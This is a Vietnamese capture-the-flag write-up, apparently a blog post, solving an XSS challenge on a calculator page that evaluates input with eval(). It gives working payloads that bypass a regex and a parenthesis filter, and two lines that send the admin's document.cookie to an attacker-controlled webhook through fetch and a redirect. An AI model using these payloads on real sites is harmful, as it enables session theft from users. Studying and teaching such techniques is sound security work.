 1. Đầu tiên là phép tính phải có định dạng phù hợp với regex sau `/^\d+[\+|\-|\*|\/]\d+/`. Đoạn này nó sẽ lấy bắt đầu từ đầu phép tính ta nhập vào và kiểm tra xem ký tự đầu tiên có phải là các chữ số không, nếu là các chữ số rồi thì tiếp theo sau nó có phải là các toán tử như +, -, *, / không, nếu là các toán tử đó rồi thì tiếp tục xem xem sau các toán tử đó có phải là các chữ số hay không? Nếu thỏa mãn thì phép tính mới được tính.
-> Để vượt qua đoạn regex này khá dễ em chỉ cần nhập 3 ký tự đầu tiên chuẩn theo format của regex là được: `?calculation=1*1*1337`
2. Sau khi đã qua được regex em bắt đầu thử gọi hàm trong eval(), em bắt đầu thử với alert(1): `?calculation=1*1*alert(1)` và nó không hoạt động vì website đã filter dấu ngoặc đơn `( )` :cry: Sau một hồi tìm kiếm thì em thấy có thể thay dấu ngoặc đơn bằng ký tự ``` `` ```: ```?calculation=1*1*alert`1` ``` Và nó thành công
![](https://i.imgur.com/CfqVSMq.png)
Hí hửng em thay hàm `alert` bằng hàm `fetch`: ``` ?calculation=1*1*fetch`[Link webhook]?cookie=${document.cookie}` ``` và nghĩ rằng sẽ dễ dàng giải quyết được bài này, nhưng không :cry:.
Vấn đề không phải do hàm fetch không hoạt động, nó có fetch đến webhook của em nhưng còn về cookie, không thể lấy được cookie khi em đang ở trong hàm `eval()` việc filter dấu ngoặc làm ngăn chặn mọi cách mà em nghĩ ra :cry: 

Mất phương ướng em đã quyết định tìm đến solution, và...
Vcccccccccccccccccccccccccccccc

Em đã chỉ tập chung vào hàm `eval()` mà không nhìn tất cả. Phép tình ngoài việc được đưa vào hàm `eval()` ra nó còn được biến thành chuỗi để đưa vào đằng trước kết quả của hàm eval() sau đó mới InnerText để hiện thị ra màn hình ``` document.getElementById('state').innerText = '1*1 = ' + result; ```

![](https://i.imgur.com/a1G01DX.png)

## Khai thác

Hướng khai thác mới đã có việc cần làm bây giờ chỉ là đóng chuỗi `'1*1 = '` lại và chèn đoạn script của em vào thôi.

Nhưng trước hết vẫn phải bypass qua được regex và filter. Em thử payload: ```1*1/*';alert`1`;//*/``` và em có kết quả như sau:

![](https://i.imgur.com/3iBKRfc.png)

- Dùng `/* */` để khiến eval hiểu phần bên trong đó là comment và không tiếp tục check regex và filter.
- Dấu `'` đầu tiên dùng để kết thúc chuỗi `'1*1/*'` để em có thể viết code js phía sau nhưng như vậy làm cho ký tự mở đầu đầu của comment cũng đã bị mất nên em phải thêm ký tự comment `//` ở đằng sau câu lệnh js của em để nó comment ký tự đóng comment đã thêm vào từ trước đó.

Vì dấu ngoặc đơn `( )` bị filter (không  thể dùng `fetch()` được) nên bây giờ để lấy được cookie của admin em sẽ chuyển hướng admin sau khi click vào link đến webhook mà em kiểu soát bằng `1*1/*';window.location.href='[Link webhook]?cookie='%2bdocument.cookie;//*/`

Sang webhook ngồi chờ cookie về thôi :face_with_hand_over_mouth: 

![](https://i.imgur.com/r1CXZ3b.png)

Sau bài này thì em rút ra kinh nhiệm sương máu là phải quan sát kỹ hơn, đừng nhanh nản rồi tìm đến solution vì sau này những thứ em gặp phải sẽ không có solution để cho em tìm :cry: 
